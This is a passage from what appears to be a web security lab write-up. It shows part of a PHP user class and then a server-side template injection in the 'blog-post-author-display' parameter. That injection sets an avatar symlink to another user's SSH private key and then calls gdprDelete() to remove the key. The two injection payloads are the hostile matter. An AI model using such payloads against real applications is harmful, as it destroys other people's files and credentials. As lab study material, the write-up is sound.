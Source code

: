             if (!symlink($filename, $this->avatarLink)) {
                throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
            }
        }

        public function delete() {
            $file = $this->user_dir . "/disabled";
            if (file_put_contents($file, "") === false) {
                throw new Exception("Could not write to " . $file);
            }
        }

        public function gdprDelete() {
            $this->rm(readlink($this->avatarLink));
            $this->rm($this->avatarLink);
            $this->delete();
        }

        private function rm($filename) {
            if (!unlink($filename)) {
                throw new Exception("Could not delete " . $filename);
            }
        }
    }

    ?>

Study the script, we notice that when we set the avatar to `/home/carlos/.ssh/id_rsa` and call the `gdprDelete()` function, we will be able to delete `.ssh/id_rsa`. To do so, first set the avatar using:

    blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/png')

Reload the post page for this to be evaluated. Next call the delete function:

    blog-post-author-display=user.gdprDelete()

Reload the post page and we successfully deleted `.ssh/id_rsa`.
